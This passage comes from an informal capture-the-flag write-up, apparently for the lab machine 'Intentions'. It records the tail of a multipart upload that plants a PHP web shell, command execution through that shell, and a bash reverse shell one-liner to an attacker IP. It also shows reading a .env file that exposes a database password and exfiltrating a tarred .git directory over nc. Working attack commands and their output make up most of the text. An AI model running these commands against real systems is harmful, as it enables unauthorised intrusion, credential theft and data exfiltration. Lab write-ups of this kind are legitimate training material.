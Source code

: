 ```
<write filename="info:/var/www/html/intentions/storage/app/public/rev.php" />
</image>
--------------------------abcd
```
note have to change the content-type:` multipart/form-data; boundary=------------------------abcd` or to whatever u put...

now we can curl:
```
curl http://10.10.11.220/storage/rev.php?cmd=whoami
caption:www-data
 CAPTION 120x120 120x120+0+0 16-bit sRGB 1.710u 0:02.252
```

to get rev shell send bash command thru curl:
`curl "http://10.10.11.220/storage/rev.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.4/4444+0>%261'"`
fyi i was getting file not found so i just ran same request thru burpsuite...

`www-data@intentions:~/html/intentions/storage/app/public$ `

im in!

 i start looking thru file i find this here:
 ```
 /html/intentions$ ls -la
ls -la
total 820
drwxr-xr-x  14 root     root       4096 Feb  2  2023 .
drwxr-xr-x   3 root     root       4096 Feb  2  2023 ..
-rw-r--r--   1 root     root       1068 Feb  2  2023 .env
drwxr-xr-x   8 root     root       4096 Feb  3  2023 .git
 ```
```
cat .env

DB_USERNAME=laravel
DB_PASSWORD=02mDWOgsOga03G385!!3Plcx
```

also i will transfer file back and send .git back to my machine using nc as i cant see the logs when running git log.. perm denied:
```
tar -cf /tmp/git.tar ./.git
```

run this on my kali:
```
nc -lnvp 443 > git.tar
```

then on target:
```
 cat /tmp/git.tar | nc 10.10.14.4 443
```

now
```
tar xf git.tar
```
